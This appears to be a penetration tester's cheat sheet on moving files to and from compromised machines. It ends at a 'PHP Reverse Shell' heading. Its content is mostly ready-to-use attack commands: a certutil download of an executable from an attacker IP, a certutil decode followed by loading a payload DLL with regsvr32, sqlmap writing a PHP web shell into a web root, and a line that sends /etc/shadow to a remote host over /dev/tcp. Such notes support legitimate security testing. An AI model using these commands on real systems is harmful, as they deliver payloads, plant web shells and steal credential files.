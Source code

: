 Because if Netcat is on the system, everything becomes easier:
listener#> nc -l -p 4444 > output.file
sender#> nc -w 3 [destination] 4444 < input.file
(and if it's not - go get it: C:\Users\burmat>tftp -i 10.10.10.10 get nc.exe)
CERTUTIL Transfer
Using certutil.exe is a clever way to get files down to a victim if you are attacking a Windows box and limited on methods:
certutil.exe -urlcache -split -f http://10.10.15.11/burmat.exe C:\temp\burmat.exe
You can also write a file from Base64 encoded text, too:
certutil.exe -decode C:\temp\payload.txt C:\temp\payload.dll
regsvr32 /s /u C:\temp\payload.dll
(Source:  )
SQLMAP - User w/ FILE Privileges
If you have SQLi with a user account that has FILE privileges, you can use sqlmap to transfer the file to disk without formulating an INFO FILE query yourself:
root@kali:~ ❯ sqlmap -r inject.req --dbms "mysql" --file-write shell.php --file-dest \\inetpub\\wwwroot\\shell.php
To see if you have the privilege, attempt (you might not have rights) to dump the user table:
root@kali:~ ❯ sqlmap -r inj.req --dbms "mysql" -D mysql -T user -C User,File_Priv --dump
.. SNIP ..
[2 entries]
+---------+-----------+
| User    | File_Priv |
+---------+-----------+
| burmat  | Y         |
| root    | Y         |
+---------+-----------+
XML File Creation on Target (via copy/paste)
This is a clever way to get XML over to the system using copy and paste, and writing that XML to file:
PS C:\> $console = [XML] @"
<XML CODE CODE HERE>
"@
​
# write the xml to file:
PS C:\> $console.save("C:\users\burmat\documents\console.xml")
Base64
Using netcat
# receiving host
nc -lp 4443 | base64 -d > loot.txt
​
# sender host
base64 /etc/shadow > /dev/tcp/10.10.10.123/4443
Copy and Paste
## encode from file with:
base64 <<< $(cat shell.py) | tr -d "\n"
​
## decode to file with:
echo -n "ZmlsZSBjb250ZW50IGhlcmUK" | base64 -d > shell.py
xclip
Not a true method of file transfer, but useful nonetheless:
cat /usr/share/nishang/Client/Out-HTA.ps1 | xclip -sel clip
REVERSE SHELLS / SHELLS
PHP Reverse Shell - Minified